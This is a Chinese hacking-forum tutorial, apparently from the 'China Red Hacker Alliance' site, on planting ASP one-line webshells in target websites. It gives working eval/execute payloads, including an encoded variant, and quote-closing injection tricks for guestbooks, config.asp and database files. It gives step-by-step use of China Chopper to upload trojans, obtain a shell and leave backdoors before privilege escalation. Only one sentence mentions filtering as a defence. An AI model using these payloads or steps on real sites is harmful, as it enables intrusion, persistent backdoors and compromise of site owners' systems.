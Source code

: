 一句话木马怎样才能算插入了数据库？     
===
* 脚本技术 - 中国红客联盟 - Powered by HUC

1 进入后台之后找网站信息配置     
2 在企业邮局里面拷贝出来邮箱做好记录，恢复用     
3 在企业邮箱内插入一句话     
4 保存配置，打开中国菜刀     
5 http://www.xxxx.cn/inc/config.asp 其中XXXX为你的目标站     
6 菜刀右键添加，把网址第五步的丢进去  右边那一栏输入一句话的密码pass（默认）下     
  面的脚本类型为asp 其他不变  最后点添加     
7 用中国菜刀链接点击文件管理      
8 在inc目录下上传一个小马（注意更改后缀为asp）     
9 打开http://www.xxxx.cn/inc/你的小马名字.asp     
10 打开小马输入密码进入小马     
11 复制文件地址输入上面的栏中后面加大马名字.asp     
12 把大马以txt文档形式打开，复制粘贴至下面的栏中。     
13 保存     
14 访问11步骤中的大马     
15 输入大马密码，成功得到shell     

一句话的总结

## 一 留言本插入     
在留言框内 插入一句话          
<%eval request("#")%>     
<%execute request("#")%>     
┼攠數畣整爠煥敵瑳∨≡┩愾     
这三个都是asp一句话，在国内小站asp还是比较泛滥的。 如果当前web没有进行过滤可以直接以留言的方式提交过去。    
如果过滤不严可以闭合插入。如最简单的     
%><%eval request("#")%><%      
比如当前页     
`http://site/guest/guestbook.asp`     

你在当前页提交一句话后是不能直接链接`http://site/guestbook.asp`的，因为一句话代码并不在这里！
这里需要一个前提条件
     
1）他的数据库是为了防止*.mdb 下载而更名为     
`*.asa or *.asp`格式     
2）满足了条件1的同时你知道他的数据库位置     
`ex:http://site/guest/db/guestdb.asa or guest.asp`     
当满足第一条 和第二条中的两小条后     
可以成功插入一句话     
数据库修改过后缀名 asa asp     
知道具体位置     
满足以上条件后 在 `http://site/guest/guestbook.asp `插入一句话     
链接 `http://site/guest/db/guestdb.asa`     


## 二 配置文件插入一句话    
一般而言，后台插一句话，如果数据库扩展名是asp的话，那么插数据库，但是如果有配置文件可以插的话，那肯定是插入配置文件了，但是插入配置文件有一个很大的风险，那就是一旦出错那么全盘皆输，有可能不仅仅造成后台无法登陆，甚至有可能是整个网站系统崩溃，所以插入配置文件，请慎之又慎。    

话归正题，如果想插入配置文件，一般是config.asp，那么首先需要了解这个文件的一般情况。    
    
网站的配置一般是保存网站名，地址，email之类的，既然是字符，那么格式应当是    
webname=“test website”    

对于这样的配置插入一句话的话，我们的机会就是替换test website，那么需要闭合2个”，    
同时要插入一句话，语句可以这样:     
“%><%eval request(“d”%><%s=”    
    
那么在config.asp中就是    

webname=“ “%><%eval request(“d”%><%s=” ”    
第一个”是闭合前面的配置文件中的”，%>就是闭合前一段脚本，之后插入一句话<%eval request(“d”%>，现在要闭合原来的”和%>    

所以加入<%s=”，这里特别要注意“s=”，如果没有这个等号的话，那么就会成<%” “,这样必将出错。    

好了，这是常规的办法，现在我们回到开始那个问题，按照前面的方法插入    

插入后，我们再点击“网站设置” ，出现错误    

从这个错误，我们可以得到2个信息。    

#### 第一，配置文件的路径：http://www.target.com/zfbm/zfb/inc/config.asp    
#### 第二，网站名的变量为webname。    

由于我们闭合前面双引号起”的那个双引号收”被过滤成单引号’，所以就成了webname=” ‘，这样的话那么这个双引号没有闭合，由于双引号是vbscript的控制符，没有闭合config.asp运行必然出错。        

那么我们遇到这种双引号被过滤了的情况改怎么办呢。    
由于插入一句话必须要用双引号括起来，而输入双引号又被过滤，所以我们可以利用他们自身的双引号来解决。    

在配置文件中，我们还可以看到这样一些设置    
就是配置网站的公告数 ，文章数等。       
可以假设一下，他必然是整数赋值，没有双引号包括    
num=5    
num是整数型，不然就成字符了num=”5″    

那么我们的一句话就可以这样构建    

在公告数中我们插入5%><%eval request(webname)%><%    
    
必须要有5，不然将会出错，在网站名中我们插入”open”    

由于我们没有输入双引号，不存在过滤，我们利用 配置文件本身的双引号来达到目的。那么配置文件现在的内容如下

<% ……………….. webname=”open” num=5%><%eval request(webname)%><% webnum=7 ……. %> 
我们的一句话就相应为eval request(“open”)，open为seo/’>密码。    

用菜刀成功连接    

从上可见，我们成功利用配置文件本身避开了一句话中双引号被过滤的问题。    

那么在网页设计方面，我们可以增加过滤<,%,>或者组合<%,%>这些特殊符号，禁止这些符号的输入，那么将大大增加网页安全。


#### 三 网站友情链接或者是管理员添加插入一句话，等等...就跟配置文件类似    
当成功在配置文件中插入一句话后，可以连接`http://site/inc/config.asp`    
也就是说你的一句话最终保存在那个asp文件中你就去连那个ASP文件，并不是你在留言本主页插入的一句话你就去连接留言本主页！    
你需要知道你的一句话的归属地。    


在成功得到webshell ，需要先留后门在进一步提权。因为你提权时弄出动静后会前功尽弃。留一个一句话是很好的选择。    
可以把后门直接写入在asp文件中，也可以自己重新上传一个ASP马，在修改原有ASP文件的同时需要备份一下以防插挂后可以    补救。有人喜欢插入在dbcon.asp 数据连接文件中或者其他位置。 这个跟当时情况而定。    
